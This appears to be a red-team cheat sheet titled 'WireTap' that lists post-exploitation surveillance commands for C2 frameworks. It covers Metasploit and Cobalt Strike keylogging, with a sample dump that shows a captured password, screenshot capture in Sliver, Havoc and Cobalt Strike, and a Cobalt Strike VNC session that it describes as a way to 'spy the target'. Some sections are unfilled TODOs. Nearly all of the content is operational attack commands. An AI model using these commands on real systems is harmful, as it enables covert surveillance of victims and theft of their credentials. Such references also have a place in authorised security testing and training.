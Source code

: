 # WireTap

## 01 - Keylogging

### 1.1 - Living off the Land

TODO: Fill this info

### 1.2 - Metasploit

```
meterpreter > keyscan_start -h
Usage: keyscan_start <options>
Starts the key logger

OPTIONS:

    -h  Help Banner.
    -v  Verbose logging: tracks the current active window in which keystrokes are occuring.

meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
my password is Johnny1997!<CR>


meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 1.3 - Sliver

TODO: Fill this info

### 1.4 - Covenant

TODO: Fill this info

### 1.5 - Cobalt Strike

This will spawn to a child process when using the spawnto beacon command otherwise it'll use the rundll32 as default. You can optionally spoof to another process

`beacon> keylogger <pid> <arch>`

## 02 - Screenshots

### 2.1 - Sliver

`sliver (IMPLANT_NAME) > screenshot`

### 2.2 - Havoc

`Demon » screenshot`

### 2.3 - Cobalt Strike

This will spawn to a child process when using the `spawnto` beacon command otherwise it'll use the `rundll32` as default. You can optionally spoof to another process.

```
beacon> screenshot

beacon> screenshot <pid> <arch> <seconds>

beacon> printscreen

beacon> screenwatch
```

## 03 - VNC Desktop

### 3.1 - Cobalt Strike

Launch a VNC client to spy the target. My recommendation is use `low` quality option to get better surveillance on the target.

`beacon> desktop <pid> <arch> [low | high]`